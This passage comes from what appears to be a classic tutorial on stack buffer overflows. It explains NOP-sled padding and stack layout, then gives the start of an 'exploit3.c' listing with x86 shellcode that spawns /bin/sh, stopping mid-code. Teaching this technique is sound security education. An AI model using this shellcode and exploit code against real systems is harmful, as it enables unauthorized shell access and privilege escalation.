 As we can see this is not an efficient process.  Trying to guess the
offset even while knowing where the beginning of the stack lives is nearly
impossible.  We would need at best a hundred tries, and at worst a couple of
thousand.  The problem is we need to guess *exactly* where the address of our 
code will start.  If we are off by one byte more or less we will just get a
segmentation violation or a invalid instruction.  One way to increase our
chances is to pad the front of our overflow buffer with NOP instructions.
Almost all processors have a NOP instruction that performs a null operation.
It is usually used to delay execution for purposes of timing.  We will take
advantage of it and fill half of our overflow buffer with them.  We will place
our shellcode at the center, and then follow it with the return addresses. If
we are lucky and the return address points anywhere in the string of NOPs,
they will just get executed until they reach our code.  In the Intel
architecture the NOP instruction is one byte long and it translates to 0x90
in machine code.  Assuming the stack starts at address 0xFF, that S stands for
shell code, and that N stands for a NOP instruction the new stack would look
like this:

```
bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c

<------   [NNNNNNNNNNNSSSSSSSSS][0xDE][0xDE][0xDE][0xDE][0xDE]
                 ^                     |
                 |_____________________|
top of                                                            bottom of
stack                                                                 stack
```

The new exploits is then:

{% highlight C %}
exploit3.c
------------------------------------------------------------------------------
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;